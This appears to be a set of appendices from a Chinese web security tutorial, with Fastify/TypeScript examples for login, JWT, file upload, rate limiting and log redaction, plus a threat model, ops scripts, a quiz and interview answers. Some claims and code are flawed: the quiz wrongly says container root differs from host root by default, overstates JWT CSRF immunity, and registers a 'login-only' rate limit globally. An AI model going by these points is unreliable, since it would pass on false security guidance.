// 规范 6：安全的 HTTP 响应

// ✅ 正确：使用统一的错误响应格式
interface ErrorResponse {
  error: string
  message?: string
  statusCode?: number
}

// ✅ 正确：设置安全响应头
fastify.addHook('onSend', async (request, reply) => {
  reply.header('X-Content-Type-Options', 'nosniff')
  reply.header('X-Frame-Options', 'DENY')
  reply.header('X-XSS-Protection', '0')
  reply.header('Referrer-Policy', 'strict-origin-when-cross-origin')
})

// ✅ 正确：敏感接口不返回过多信息
fastify.post('/login', async (request, reply) => {
  // 验证逻辑...
  if (!valid) {
    // 不告诉用户是用户名错还是密码错
    return reply.code(401).send({ error: 'Invalid credentials' })
  }
})
```

## J.2 代码审查安全检查项

```mermaid
graph TB
    subgraph 审查清单["代码审查安全检查项"]
        subgraph 输入["输入验证"]
            I1["所有外部输入是否验证？"]
            I2["类型检查是否充分？"]
            I3["长度限制是否合理？"]
            I4["格式校验是否正确？"]
        end

        subgraph 认证["认证授权"]
            A1["是否检查了 Token？"]
            A2["是否验证了权限？"]
            A3["是否检查了资源归属？"]
            A4["错误消息是否安全？"]
        end

        subgraph 数据["数据处理"]
            D1["密码是否哈希存储？"]
            D2["敏感数据是否加密？"]
            D3["SQL 是否参数化？"]
            D4["路径是否验证？"]
        end

        subgraph 日志["日志审计"]
            L1["安全操作是否记录？"]
            L2["日志中是否有敏感信息？"]
            L3["错误日志是否充分？"]
        end
    end

    style 输入 fill:#e3f2fd,stroke:#1565c0
    style 认证 fill:#e8f5e9,stroke:#2e7d32
    style 数据 fill:#fff3e0,stroke:#e65100
    style 日志 fill:#f3e5f5,stroke:#6a1b9a
```

---

# 附录 K：参考资源

## K.1 安全标准和指南

| 资源 | 链接 | 说明 |
|------|------|------|
| OWASP Top 10 | owasp.org/www-project-top-ten | 最常见的 Web 安全风险 |
| OWASP ASVS | owasp.org/www-project-application-security-verification-standard | 应用安全验证标准 |
| CWE/SANS Top 25 | cwe.mitre.org/top25 | 最危险的软件错误 |
| NIST SP 800-63 | nist.gov/itl/tig | 数字身份指南 |
| RFC 7519 | tools.ietf.org/html/rfc7519 | JWT 标准 |
| RFC 9106 | tools.ietf.org/html/rfc9106 | Argon2 标准 |

## K.2 安全工具

| 工具 | 类型 | 用途 |
|------|------|------|
| npm audit | 依赖扫描 | Node.js 项目 |
| Snyk | 依赖扫描 | 多语言 |
| Trivy | 容器扫描 | Docker 镜像 |
| Hadolint | Dockerfile 检查 | 最佳实践 |
| ESLint Security | 代码检查 | JavaScript/TypeScript |
| OWASP ZAP | 动态测试 | Web 应用 |
| Burp Suite | 动态测试 | Web 应用（专业级） |

## K.3 推荐阅读

| 书籍/资源 | 作者 | 说明 |
|----------|------|------|
| 《Web 应用安全权威指南》 | Zaler 等 | Web 安全入门必读 |
| 《黑客攻防技术宝典》 | Dafydd Stuttard | Web 实战 |
| 《密码学与网络安全》 | William Stallings | 密码学基础 |
| OWASP Cheat Sheet Series | OWASP | 安全开发速查 |
| Node.js Security Checklist | Node.js 官方 | Node.js 安全指南 |

---

> 📖 **全文完**。本篇从认证基础到容器安全，从理论到实践，全面覆盖了 Web 应用安全的核心知识。安全不是一次性的工作，而是持续的过程。希望本篇能帮助你建立扎实的安全基础，并在实际项目中应用这些知识。

---

# 附录 L：安全架构实战演练

## L.1 实战：从零实现一个安全的登录系统

### 需求分析

```mermaid
graph TB
    subgraph 需求["登录系统安全需求"]
        R1["用户注册和登录"]
        R2["密码安全存储"]
        R3["JWT Token 认证"]
        R4["防止暴力破解"]
        R5["防止用户名枚举"]
        R6["审计日志"]
        R7["Token 刷新机制"]
    end

    style 需求 fill:#e3f2fd,stroke:#1565c0
```

### 步骤 1：用户注册

```typescript
// 安全的用户注册实现

import bcrypt from 'bcryptjs'
import crypto from 'crypto'
import { FastifyInstance, FastifyRequest, FastifyReply } from 'fastify'

interface User {
  userId: string
  username: string
  passwordHash: string
  createdAt: string
}

const users = new Map<string, User>()

async function registerRoute(fastify: FastifyInstance) {
  fastify.post('/register', {
    schema: {
      body: {
        type: 'object',
        required: ['username', 'password'],
        properties: {
          username: { type: 'string', minLength: 2, maxLength: 32 },
          password: { type: 'string', minLength: 8, maxLength: 128 },
        },
      },
    },
  }, async (request: FastifyRequest, reply: FastifyReply) => {
    const { username, password } = request.body as { username: string; password: string }

    // 验证 1：用户名格式
    if (!/^[a-zA-Z0-9_-]+$/.test(username)) {
      return reply.code(400).send({ error: 'Invalid username format' })
    }

    // 验证 2：密码强度
    if (!isStrongPassword(password)) {
      return reply.code(400).send({
        error: 'Password must contain uppercase, lowercase, number, and special character',
      })
    }

    // 验证 3：用户名唯一性
    if (users.has(username)) {
      return reply.code(409).send({ error: 'Username already taken' })
    }

    // 安全：异步哈希密码
    const passwordHash = await bcrypt.hash(password, 12)  // cost = 12

    // 创建用户
    const user: User = {
      userId: crypto.randomUUID(),
      username,
      passwordHash,
      createdAt: new Date().toISOString(),
    }
    users.set(username, user)

    // 审计日志
    auditLog('USER_CREATE', user.userId, { username, ip: request.ip })

    // 安全：不返回密码哈希
    const { passwordHash: _, ...safeUser } = user
    return reply.code(201).send(safeUser)
  })
}

function isStrongPassword(password: string): boolean {
  const hasUppercase = /[A-Z]/.test(password)
  const hasLowercase = /[a-z]/.test(password)
  const hasNumber = /[0-9]/.test(password)
  const hasSpecial = /[!@#$%^&*()_+\-=\[\]{};':"\\|,.<>\/?]/.test(password)
  return hasUppercase && hasLowercase && hasNumber && hasSpecial
}
```

### 步骤 2：用户登录

```typescript
// 安全的登录实现

import jwt from 'jsonwebtoken'
import rateLimit from '@fastify/rate-limit'

async function loginRoute(fastify: FastifyInstance) {
  // 防暴力破解：速率限制
  await fastify.register(rateLimit, {
    max: 5,           // 每分钟最多 5 次
    timeWindow: '1 minute',
    keyGenerator: (request) => request.ip,  // 按 IP 限制
  })

  fastify.post('/login', async (request, reply) => {
    const { username, password } = request.body as { username: string; password: string }

    // 查找用户
    const user = users.get(username)

    // 安全：统一错误消息（防止用户名枚举）
    const invalidCredentials = { error: 'Invalid credentials' }

    if (!user) {
      // 审计：记录失败（内部记录用户名，外部不暴露）
      auditLog('LOGIN_FAILED', undefined, {
        username,
        reason: 'user not found',
        ip: request.ip,
      })
      return reply.code(401).send(invalidCredentials)
    }

    // 验证密码
    const valid = await bcrypt.compare(password, user.passwordHash)
    if (!valid) {
      auditLog('LOGIN_FAILED', user.userId, {
        username,
        reason: 'invalid password',
        ip: request.ip,
      })
      return reply.code(401).send(invalidCredentials)
    }

    // 生成 Token 对
    const tokens = generateTokenPair(user.userId, user.username)

    // 审计：记录成功登录
    auditLog('LOGIN', user.userId, { username, ip: request.ip })

    return tokens
  })
}

function generateTokenPair(userId: string, username: string) {
  const config = getConfig()

  const accessToken = jwt.sign(
    { userId, username },
    config.JWT_SECRET,
    { expiresIn: '15m' }
  )

  const refreshToken = jwt.sign(
    { userId, username },
    config.JWT_REFRESH_SECRET,
    { expiresIn: '7d' }
  )

  return { accessToken, refreshToken }
}
```

### 步骤 3：认证中间件

```typescript
// 全局认证中间件

import { FastifyInstance, FastifyRequest, FastifyReply } from 'fastify'
import jwt from 'jsonwebtoken'

const PUBLIC_PATHS = ['/health', '/api/auth/login', '/api/auth/register', '/api/auth/refresh']

async function authMiddleware(fastify: FastifyInstance) {
  fastify.addHook('onRequest', async (request: FastifyRequest, reply: FastifyReply) => {
    // 跳过公开路径
    const path = request.url.split('?')[0]
    if (PUBLIC_PATHS.some(p => path === p)) {
      return
    }

    // 提取 Token
    const authHeader = request.headers.authorization
    if (!authHeader?.startsWith('Bearer ')) {
      return reply.code(401).send({ error: 'Missing authorization header' })
    }

    const token = authHeader.slice(7)

    // 验证 Token
    try {
      const config = getConfig()
      const decoded = jwt.verify(token, config.JWT_SECRET, {
        algorithms: ['HS256'],  // 指定算法，防止 alg:none 攻击
      }) as JwtPayload

      // 将用户信息挂载到 request
      request.user = decoded
    } catch (err) {
      if (err instanceof jwt.TokenExpiredError) {
        return reply.code(401).send({ error: 'Token expired' })
      }
      return reply.code(401).send({ error: 'Invalid token' })
    }
  })
}
```

### 步骤 4：Token 刷新

```typescript
// Token 刷新端点

async function refreshRoute(fastify: FastifyInstance) {
  fastify.post('/refresh', async (request, reply) => {
    const { refreshToken } = request.body as { refreshToken: string }

    if (!refreshToken) {
      return reply.code(400).send({ error: 'Refresh token required' })
    }

    try {
      const config = getConfig()

      // 使用 Refresh Token 专用密钥验证
      const decoded = jwt.verify(refreshToken, config.JWT_REFRESH_SECRET, {
        algorithms: ['HS256'],
      }) as JwtPayload

      // 生成新的 Access Token
      const accessToken = jwt.sign(
        { userId: decoded.userId, username: decoded.username },
        config.JWT_SECRET,
        { expiresIn: '15m' }
      )

      return { accessToken }
    } catch (err) {
      if (err instanceof jwt.TokenExpiredError) {
        return reply.code(401).send({ error: 'Refresh token expired, please login again' })
      }
      return reply.code(401).send({ error: 'Invalid refresh token' })
    }
  })
}
```

### 完整流程图

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器
    participant DB as 用户存储
    participant Log as 审计日志

    Note over C,Log: === 注册 ===
    C->>S: POST /register {username, password}
    S->>S: 验证用户名格式
    S->>S: 验证密码强度
    S->>DB: 检查用户名唯一性
    S->>S: bcrypt.hash(password, 12)
    S->>DB: 存储用户
    S->>Log: USER_CREATE
    S-->>C: 201 {userId, username}

    Note over C,Log: === 登录 ===
    C->>S: POST /login {username, password}
    S->>DB: 查找用户
    S->>S: bcrypt.compare(password, hash)
    alt 密码错误
        S->>Log: LOGIN_FAILED
        S-->>C: 401 Invalid credentials
    end
    S->>S: 生成 JWT Token 对
    S->>Log: LOGIN
    S-->>C: {accessToken, refreshToken}

    Note over C,Log: === API 请求 ===
    C->>S: GET /api/data<br/>Authorization: Bearer <token>
    S->>S: jwt.verify(token, secret)
    S-->>C: 200 {data}

    Note over C,Log: === Token 刷新 ===
    C->>S: POST /refresh {refreshToken}
    S->>S: jwt.verify(refreshToken, refreshSecret)
    S->>S: 生成新 accessToken
    S-->>C: {accessToken: new}
```

## L.2 实战：实现安全的文件上传

### 文件上传安全检查

```typescript
// 安全的文件上传实现

import path from 'path'
import fs from 'fs/promises'
import crypto from 'crypto'

const ALLOWED_EXTENSIONS = new Set(['.jpg', '.jpeg', '.png', '.gif', '.pdf', '.txt', '.md'])
const DANGEROUS_EXTENSIONS = new Set(['.exe', '.bat', '.cmd', '.sh', '.ps1', '.vbs', '.js', '.php'])
const MAX_FILE_SIZE = 5 * 1024 * 1024  // 5MB
const UPLOAD_DIR = '/app/uploads'

interface UploadResult {
  success: boolean
  filename?: string
  error?: string
}

async function secureFileUpload(
  file: { filename: string; data: Buffer; mimetype: string },
  userId: string
): Promise<UploadResult> {
  // 检查 1：文件大小
  if (file.data.length > MAX_FILE_SIZE) {
    return { success: false, error: 'File too large (max 5MB)' }
  }

  // 检查 2：文件扩展名
  const ext = path.extname(file.filename).toLowerCase()
  if (!ALLOWED_EXTENSIONS.has(ext)) {
    return { success: false, error: `File type '${ext}' not allowed` }
  }
  if (DANGEROUS_EXTENSIONS.has(ext)) {
    return { success: false, error: `File type '${ext}' is dangerous` }
  }

  // 检查 3：MIME 类型
  const allowedMimes = ['image/jpeg', 'image/png', 'image/gif', 'application/pdf', 'text/plain']
  if (!allowedMimes.includes(file.mimetype)) {
    return { success: false, error: 'Invalid MIME type' }
  }

  // 检查 4：文件内容（魔数检查）
  const magicNumbers: Record<string, Buffer> = {
    'image/jpeg': Buffer.from([0xFF, 0xD8, 0xFF]),
    'image/png': Buffer.from([0x89, 0x50, 0x4E, 0x47]),
    'image/gif': Buffer.from([0x47, 0x49, 0x46]),
    'application/pdf': Buffer.from([0x25, 0x50, 0x44, 0x46]),
  }

  const expectedMagic = magicNumbers[file.mimetype]
  if (expectedMagic) {
    const fileMagic = file.data.slice(0, expectedMagic.length)
    if (!fileMagic.equals(expectedMagic)) {
      return { success: false, error: 'File content does not match MIME type' }
    }
  }

  // 生成安全的文件名（防止路径遍历）
  const safeFilename = crypto.randomUUID() + ext

  // 确保上传目录存在
  const userDir = path.join(UPLOAD_DIR, userId)
  await fs.mkdir(userDir, { recursive: true })

  // 写入文件
  const filePath = path.join(userDir, safeFilename)
  await fs.writeFile(filePath, file.data)

  // 审计日志
  auditLog('FILE_UPLOAD', userId, {
    originalName: file.filename,
    savedName: safeFilename,
    size: file.data.length,
    mimetype: file.mimetype,
  })

  return { success: true, filename: safeFilename }
}
```

### 文件上传安全检查清单

```mermaid
graph TB
    subgraph 检查清单["文件上传安全检查"]
        C1["✅ 文件大小限制"]
        C2["✅ 文件扩展名白名单"]
        C3["✅ 危险扩展名黑名单"]
        C4["✅ MIME 类型验证"]
        C5["✅ 文件内容（魔数）检查"]
        C6["✅ 安全文件名生成"]
        C7["✅ 用户隔离目录"]
        C8["✅ 审计日志"]
    end

    style 检查清单 fill:#e8f5e9,stroke:#2e7d32
```

## L.3 实战：实现 API 速率限制

### 速率限制策略

```typescript
// 多层速率限制

import rateLimit from '@fastify/rate-limit'

async function setupRateLimiting(fastify: FastifyInstance) {
  // 全局速率限制
  await fastify.register(rateLimit, {
    max: 100,              // 每分钟 100 次请求
    timeWindow: '1 minute',
    keyGenerator: (request) => request.ip,
    errorResponseBuilder: () => ({
      statusCode: 429,
      error: 'Too Many Requests',
      message: 'Rate limit exceeded, please try again later',
    }),
  })

  // 登录接口更严格的限制
  fastify.register(rateLimit, {
    max: 5,                // 每分钟 5 次
    timeWindow: '1 minute',
    keyGenerator: (request) => request.ip,
  })

  // 文件操作限制
  fastify.register(rateLimit, {
    max: 60,               // 每分钟 60 次
    timeWindow: '1 minute',
    keyGenerator: (request) => request.ip,
  })
}
```

### 速率限制配置对比

| 接口 | 限制 | 时间窗口 | 说明 |
|------|------|---------|------|
| 全局 | 100次/分钟 | 1分钟 | 防止 DDoS |
| 登录 | 5次/分钟 | 1分钟 | 防止暴力破解 |
| 注册 | 3次/小时 | 1小时 | 防止垃圾注册 |
| 文件操作 | 60次/分钟 | 1分钟 | 防止滥用 |
| Token 刷新 | 10次/分钟 | 1分钟 | 防止 Token 滥用 |

### 速率限制响应

```typescript
// 自定义速率限制响应
fastify.register(rateLimit, {
  max: 5,
  timeWindow: '1 minute',
  errorResponseBuilder: (request, context) => ({
    statusCode: 429,
    error: 'Too Many Requests',
    message: `Rate limit exceeded. Try again in ${context.after} seconds.`,
    retryAfter: context.after,
  }),
  // 添加响应头
  addHeadersOnExceeding: {
    'x-ratelimit-limit': true,
    'x-ratelimit-remaining': true,
    'x-ratelimit-reset': true,
  },
  addHeaders: {
    'x-ratelimit-limit': true,
    'x-ratelimit-remaining': true,
    'x-ratelimit-reset': true,
    'retry-after': true,
  },
})
```

```http
HTTP/1.1 429 Too Many Requests
X-RateLimit-Limit: 5
X-RateLimit-Remaining: 0
X-RateLimit-Reset: 1703276460
Retry-After: 45
Content-Type: application/json

{
  "statusCode": 429,
  "error": "Too Many Requests",
  "message": "Rate limit exceeded. Try again in 45 seconds.",
  "retryAfter": 45
}
```

## L.4 实战：实现安全的日志系统

### 结构化日志

```typescript
// 安全的结构化日志

import pino from 'pino'

const logger = pino({
  level: process.env.LOG_LEVEL || 'info',
  // 安全：过滤敏感字段
  serializers: {
    req: (req) => ({
      method: req.method,
      url: req.url,
      // 不记录 Authorization 头
      headers: {
        'content-type': req.headers['content-type'],
        'user-agent': req.headers['user-agent'],
      },
      remoteAddress: req.remoteAddress,
    }),
    res: (res) => ({
      statusCode: res.statusCode,
    }),
    err: pino.stdSerializers.err,
  },
  // 自定义日志格式
  formatters: {
    level: (label) => {
      return { level: label }
    },
  },
  // 时间戳格式
  timestamp: pino.stdTimeFunctions.isoTime,
})

// 安全：日志脱敏
function sanitizeLogData(data: Record<string, unknown>): Record<string, unknown> {
  const sensitiveFields = ['password', 'token', 'secret', 'authorization', 'cookie']
  const sanitized = { ...data }

  for (const key of Object.keys(sanitized)) {
    if (sensitiveFields.some(field => key.toLowerCase().includes(field))) {
      sanitized[key] = '[REDACTED]'
    }
  }

  return sanitized
}

// 使用示例
logger.info(sanitizeLogData({
  action: 'user_login',
  username: 'alice',
  password: 'secret123',  // 会被脱敏
  token: 'eyJhbG...',     // 会被脱敏
  ip: '192.168.1.100',
}))
// 输出：{"level":"info","action":"user_login","username":"alice","password":"[REDACTED]","token":"[REDACTED]","ip":"192.168.1.100"}
```

### 日志脱敏规则

| 字段 | 处理方式 | 说明 |
|------|---------|------|
| password | 完全脱敏 `[REDACTED]` | 绝不记录 |
| token | 完全脱敏 `[REDACTED]` | 绝不记录 |
| secret | 完全脱敏 `[REDACTED]` | 绝不记录 |
| authorization | 完全脱敏 `[REDACTED]` | 绝不记录 |
| cookie | 完全脱敏 `[REDACTED]` | 绝不记录 |
| email | 部分脱敏 `a***@example.com` | 保护隐私 |
| ip | 正常记录 | 用于安全分析 |
| username | 正常记录 | 用于审计 |
| userId | 正常记录 | 用于审计 |

---

# 附录 M：安全威胁建模

## M.1 STRIDE 威胁模型

STRIDE 是微软提出的威胁建模方法，涵盖六种安全威胁。

```mermaid
graph TB
    subgraph STRIDE["STRIDE 威胁模型"]
        S["S - Spoofing 身份伪造<br/>冒充他人身份"]
        T["T - Tampering 篡改<br/>修改数据或代码"]
        R["R - Repudiation 抵赖<br/>否认做过某事"]
        I["I - Information Disclosure 信息泄露<br/>敏感信息被暴露"]
        D["D - Denial of Service 拒绝服务<br/>系统无法正常工作"]
        E["E - Elevation of Privilege 提权
获得更高权限"]
    end

    style S fill:#ffcdd2,stroke:#c62828
    style T fill:#fff9c4,stroke:#f57f17
    style R fill:#e3f2fd,stroke:#1565c0
    style I fill:#ffcdd2,stroke:#c62828
    style D fill:#fff3e0,stroke:#e65100
    style E fill:#ffcdd2,stroke:#c62828
```

### AI-CLI-Mobile 的 STRIDE 分析

| 威胁 | 风险场景 | 防御措施 | 当前状态 |
|------|---------|---------|--------|
| **身份伪造** | 攻击者伪造 JWT Token | JWT 签名验证、强密钥 | ✅ 已防护 |
| **篡改** | 修改传输中的数据 | HTTPS/WSS 加密 | ✅ 已防护 |
| **篡改** | 修改文件系统内容 | 路径遍历防护、文件类型过滤 | ✅ 已防护 |
| **抵赖** | 用户否认执行了操作 | 审计日志（IP、时间、操作） | ✅ 已防护 |
| **信息泄露** | JWT Payload 被解码 | 不在 JWT 中放敏感信息 | ✅ 已防护 |
| **信息泄露** | 密码哈希泄露 | bcrypt 强哈希 | ✅ 已防护 |
| **信息泄露** | 错误信息暴露内部细节 | 统一错误消息 | ✅ 已防护 |
| **拒绝服务** | 暴力破解消耗资源 | 速率限制 | ✅ 已防护 |
| **拒绝服务** | 大文件上传耗尽磁盘 | 文件大小限制 | ✅ 已防护 |
| **提权** | 普通用户获取管理员权限 | requireAdmin 中间件 | ✅ 已防护 |
| **提权** | 容器逃逸 | 非 root、只读文件系统 | ✅ 已防护 |

## M.2 攻击面分析

```mermaid
graph TB
    subgraph 攻击面["AI-CLI-Mobile 攻击面"]
        subgraph 网络["网络层"]
            N1["HTTP/HTTPS 端口"]
            N2["WebSocket 端口"]
            N3["DNS"]
        end

        subgraph 应用["应用层"]
            A1["登录接口"]
            A2["文件操作接口"]
            A3["终端 WebSocket"]
            A4["用户管理接口"]
        end

        subgraph 数据["数据层"]
            D1["用户数据文件"]
            D2["审计日志文件"]
            D3["项目文件系统"]
        end

        subgraph 容器["容器层"]
            C1["Docker 镜像"]
            C2["容器运行时"]
            C3["宿主机"]
        end
    end

    style 网络 fill:#e3f2fd,stroke:#1565c0
    style 应用 fill:#fff3e0,stroke:#e65100
    style 数据 fill:#e8f5e9,stroke:#2e7d32
    style 容器 fill:#f3e5f5,stroke:#6a1b9a
```

### 攻击面缩小策略

```mermaid
graph LR
    subgraph 策略["攻击面缩小策略"]
        S1["最小化端口暴露<br/>只开放必要端口"]
        S2["最小化接口<br/>只暴露必要 API"]
        S3["最小化权限<br/>非 root、只读"]
        S4["最小化依赖<br/>减少第三方库"]
        S5["最小化镜像<br/>Alpine + 多阶段构建"]
    end

    style 策略 fill:#e8f5e9,stroke:#2e7d32
```

---

# 附录 N：安全运维最佳实践

## N.1 密钥管理

### 环境变量管理

```bash
# 安全的环境变量管理

# 1. 生成强随机密钥
JWT_SECRET=$(openssl rand -hex 32)
JWT_REFRESH_SECRET=$(openssl rand -hex 32)
ADMIN_PASSWORD=$(openssl rand -base64 24)

# 2. 存储到 .env 文件（不提交到 Git）
cat > .env << EOF
JWT_SECRET=$JWT_SECRET
JWT_REFRESH_SECRET=$JWT_REFRESH_SECRET
ADMIN_USERNAME=admin
ADMIN_PASSWORD=$ADMIN_PASSWORD
PROJECT_ROOT=/app/workspace
EOF

# 3. 设置文件权限
chmod 600 .env

# 4. 确保 .gitignore 包含 .env
if ! grep -q '.env' .gitignore; then
  echo '.env' >> .gitignore
fi
```

### Docker Secrets

```yaml
# 使用 Docker Secrets 管理敏感信息
docker-compose.yml:

services:
  app:
    image: ai-cli-mobile:latest
    secrets:
      - jwt_secret
      - jwt_refresh_secret
      - admin_password
    environment:
      - JWT_SECRET_FILE=/run/secrets/jwt_secret
      - JWT_REFRESH_SECRET_FILE=/run/secrets/jwt_refresh_secret
      - ADMIN_PASSWORD_FILE=/run/secrets/admin_password

secrets:
  jwt_secret:
    file: ./secrets/jwt_secret.txt
  jwt_refresh_secret:
    file: ./secrets/jwt_refresh_secret.txt
  admin_password:
    file: ./secrets/admin_password.txt
```

## N.2 备份与恢复

```bash
#!/bin/bash
# 安全备份脚本

BACKUP_DIR="/backups/ai-cli-mobile"
DATE=$(date +%Y%m%d_%H%M%S)

# 备份用户数据
mkdir -p $BACKUP_DIR
cp .users.json $BACKUP_DIR/users_$DATE.json

# 备份审计日志
cp .audit.log $BACKUP_DIR/audit_$DATE.log

# 备份配置
cp .env $BACKUP_DIR/env_$DATE.enc

# 加密备份
for file in $BACKUP_DIR/*_$DATE.*; do
  gpg --symmetric --cipher-algo AES256 "$file"
  rm "$file"
done

# 清理 30 天前的备份
find $BACKUP_DIR -name '*.gpg' -mtime +30 -delete

echo "Backup completed: $DATE"
```

## N.3 监控与告警

```typescript
// 安全监控示例

import { auditLog } from './audit'

// 检测暴力破解
function detectBruteForce(): void {
  const logs = readAuditLog()
  const recentFailures = logs.filter(log =>
    log.event === 'LOGIN_FAILED' &&
    Date.now() - new Date(log.timestamp).getTime() < 5 * 60 * 1000  // 5 分钟内
  )

  // 按 IP 分组
  const failuresByIP = new Map<string, number>()
  for (const log of recentFailures) {
    const ip = log.details?.ip as string
    failuresByIP.set(ip, (failuresByIP.get(ip) || 0) + 1)
  }

  // 检测异常
  for (const [ip, count] of failuresByIP) {
    if (count > 20) {  // 5 分钟内超过 20 次失败
      sendAlert({
        type: 'BRUTE_FORCE_DETECTED',
        ip,
        failureCount: count,
        timeWindow: '5 minutes',
      })
    }
  }
}

// 检测异常登录
function detectAnomalousLogin(): void {
  const logs = readAuditLog()
  const recentLogins = logs.filter(log =>
    log.event === 'LOGIN' &&
    Date.now() - new Date(log.timestamp).getTime() < 24 * 60 * 60 * 1000  // 24 小时内
  )

  for (const log of recentLogins) {
    const ip = log.details?.ip as string
    const userId = log.userId

    // 检查是否是新 IP
    const userHistory = getUserLoginHistory(userId)
    if (!userHistory.includes(ip)) {
      sendAlert({
        type: 'NEW_IP_LOGIN',
        userId,
        ip,
        timestamp: log.timestamp,
      })
    }
  }
}
```

---

# 附录 O：安全知识测验

## O.1 选择题

**1. 以下哪个状态码表示"认证失败"？**
- A. 400 Bad Request
- B. 401 Unauthorized ✅
- C. 403 Forbidden
- D. 404 Not Found

**2. bcrypt 的 cost factor 从 10 增加到 12，计算时间大约增加多少？**
- A. 2 倍
- B. 4 倍 ✅
- C. 10 倍
- D. 100 倍

**3. 以下哪种攻击 JWT 天然免疫？**
- A. XSS
- B. CSRF ✅
- C. SQL 注入
- D. 路径遍历

**4. 以下哪个不是 JWT 的标准声明？**
- A. iss (Issuer)
- B. sub (Subject)
- C. role (Role) ✅
- D. exp (Expiration)

**5. 为什么 Access Token 的有效期应该很短？**
- A. 减少服务器存储
- B. 减少网络传输
- C. 限制泄露后的攻击窗口 ✅
- D. 提高用户体验

## O.2 判断题

**1. JWT 的 Payload 是加密的。**
❌ 错误。JWT 的 Payload 只是 Base64 编码，不是加密。任何人都能解码读取。

**2. 使用 HTTPS 就不需要其他安全措施了。**
❌ 错误。HTTPS 只保护传输层，还需要应用层的安全措施（认证、授权、输入验证等）。

**3. 相同密码使用 bcrypt 哈希后，结果总是相同的。**
❌ 错误。bcrypt 每次会生成不同的盐值，所以相同密码的哈希结果不同。

**4. 速率限制可以完全防止暴力破解。**
❌ 错误。速率限制可以减缓暴力破解，但不能完全防止（攻击者可以使用多个 IP）。

**5. 容器中的 root 用户和宿主机的 root 用户是同一个。**
❌ 错误（默认情况下）。容器有独立的用户命名空间，但存在逃逸风险，所以应该使用非 root 用户。

## O.3 简答题

**1. 解释 Access Token 和 Refresh Token 的区别，以及为什么需要两个 Token。**

参考答案：Access Token 有效期短（15分钟），用于日常 API 请求，泄露影响有限。Refresh Token 有效期长（7天），仅用于获取新的 Access Token，可以被撤销。需要两个 Token 的原因是：安全性（短有效期限制攻击窗口）+ 用户体验（长有效期避免频繁登录）+ 可控性（可以撤销 Refresh Token 终止会话）。

**2. 解释 bcrypt 为什么比 SHA-256 更适合密码哈希。**

参考答案：SHA-256 设计目标是快，1秒能计算数十亿次，GPU/ASIC 可以高效并行计算。bcrypt 设计目标是慢，使用可调节的 cost factor，1秒只能计算几千次，并且内存访问模式不利于 GPU 并行。对于密码哈希，"慢"是好事，因为它大大增加了暴力破解的成本。

**3. 描述项目中 sanitizePath() 函数的防御层次。**

参考答案：五层防御：(1) Null 字节检查 - 防止 `%00` 截断攻击；(2) `path.resolve()` - 将相对路径转为绝对路径，解析 `../`；(3) 前缀检查 - 确保路径在根目录内；(4) `fs.realpath()` - 解析符号链接；(5) 再次前缀检查 - 确保符号链接解析后的路径仍在根目录内。

---

> 📖 **全篇完**。安全是一场永无止境的攻防战。作为开发者，我们的目标不是建造一个无法攻破的堡垒，而是让攻击的成本远高于收益。通过本篇学习的认证、授权、加密、审计等知识，你已经具备了构建安全应用的基础能力。在实际开发中，始终保持安全意识，定期审计，持续学习，才能在不断变化的安全威胁中保护好系统和用户。

---

# 附录 P：常见安全面试题

## P.1 认证与授权

### Q1：JWT 和 Session 的区别是什么？

```mermaid
graph TB
    subgraph JWT["JWT"]
        J1["无状态"]
        J2["存储在客户端"]
        J3["自包含"]
        J4["天然跨域"]
    end

    subgraph Session["Session"]
        S1["有状态"]
        S2["存储在服务器"]
        S3["需要查询"]
        S4["受 Cookie 限制"]
    end

    style JWT fill:#e3f2fd,stroke:#1565c0
    style Session fill:#e8f5e9,stroke:#2e7d32
```

**答案要点：**
- JWT 无状态，Session 有状态
- JWT 存储在客户端，Session 存储在服务器
- JWT 自包含用户信息，Session 需要查询存储
- JWT 天然支持跨域，Session 受 Cookie 同源限制
- JWT 无法即时撤销，Session 可以立即删除
- JWT 适合分布式系统，Session 适合单体应用

### Q2：什么是 OAuth 2.0？四种授权模式分别是什么？

**答案要点：**
- OAuth 2.0 是一个授权框架，允许第三方应用在用户授权下访问用户资源
- 四种模式：
  1. 授权码模式（最安全，用于有后端的 Web 应用）
  2. 隐式模式（已弃用，用于纯前端 SPA）
  3. 密码模式（仅限高度信任的应用）
  4. 客户端凭证模式（用于服务间调用）

### Q3：什么是 PKCE？为什么需要它？

**答案要点：**
- PKCE（Proof Key for Code Exchange）是授权码模式的增强版
- 解决的问题：公共客户端（移动 APP、SPA）无法安全存储 client_secret
- 工作原理：
  1. 客户端生成 code_verifier（随机字符串）
  2. 计算 code_challenge = SHA256(code_verifier)
  3. 授权请求时发送 code_challenge
  4. 换取 Token 时发送 code_verifier
  5. 服务器验证 SHA256(code_verifier) === 存储的 code_challenge
- 即使攻击者截获了授权码，没有 code_verifier 也无法换取 Token

### Q4：如何防止 JWT 被伪造？

**答案要点：**
1. 使用强密钥（至少 256 位）
2. 指定允许的算法（如 `{ algorithms: ['HS256'] }`）
3. 验证 Token 的完整性（签名验证）
4. 验证 Token 的有效期（exp 和 nbf）
5. 验证签发者（iss）和接收者（aud）
6. 使用 HTTPS 传输
7. 不在 JWT 中存放敏感信息

### Q5：什么是 Token 轮换（Token Rotation）？

**答案要点：**
- Token 轮换是指每次使用 Refresh Token 获取新的 Access Token 时，同时返回一个新的 Refresh Token
- 好处：
  1. 如果 Refresh Token 被泄露，攻击者只能使用一次
  2. 可以检测 Refresh Token 被盗用（同一个 Refresh Token 被使用两次）
  3. 实现 "用后即焚" 的安全模式

## P.2 密码安全

### Q6：为什么不能用 MD5/SHA 存储密码？

**答案要点：**
- MD5/SHA 设计目标是快，1秒能计算数十亿次
- GPU/ASIC 可以高效并行计算，暴力破解成本低
- 没有内置盐值，相同密码产生相同哈希（彩虹表攻击）
- 应该使用 bcrypt、scrypt 或 Argon2 等密码专用哈希算法

### Q7：什么是盐值（Salt）？为什么需要它？

**答案要点：**
- 盐值是一个随机值，与密码组合后再进行哈希
- 作用：
  1. 相同密码产生不同哈希值（防止彩虹表）
  2. 每个用户有唯一的盐值
  3. 攻击者需要为每个盐值单独计算彩虹表
- 要求：唯一、随机、足够长（至少 128 位）、与哈希一起存储

### Q8：bcrypt 的 cost factor 是什么？如何选择？

**答案要点：**
- cost factor 决定 bcrypt 的迭代次数：2^cost 次
- cost = 10 → 1024 次迭代，约 100ms
- cost = 12 → 4096 次迭代，约 300ms
- 选择标准：
  1. 登录延迟可接受（通常 < 500ms）
  2. 越高越安全（暴力破解成本越高）
  3. 随硬件升级逐步提高
  4. 推荐值：10-12

## P.3 Web 安全

